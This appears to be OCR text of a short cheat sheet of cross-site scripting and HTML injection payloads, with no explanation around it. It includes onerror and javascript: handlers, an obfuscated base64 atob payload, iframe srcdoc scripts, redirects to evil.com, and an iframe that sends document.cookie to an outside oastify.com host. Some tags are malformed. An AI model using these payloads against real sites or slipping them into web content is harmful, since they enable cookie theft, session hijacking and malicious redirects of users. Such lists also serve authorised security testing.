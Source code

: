 "><img src=x onerror=alert(9)>
<a href="https://evil.com">Clickme</a>
<iframe src="https://evil.com"</iframe>
<meta http-equiv="refresh" content="2; https://evil.com/" />
<iframe sandbox src="https://fatyyhrid71djfy1fszeqy140v6mxanyc.oastify.com/?'+document.cookie; this.removeAttribute('onerror');"></iframe>
<a href="&#X6A;avascript:alert(1)">XSS</a>
<iframe srcdoc="<script>alert(document.cookie)</script>"></iframe>
<img src=x onerror=location=atob`amF2YXNjcmlwdDphbGVydChkb2N1bWVudC5kb21haW4p`>
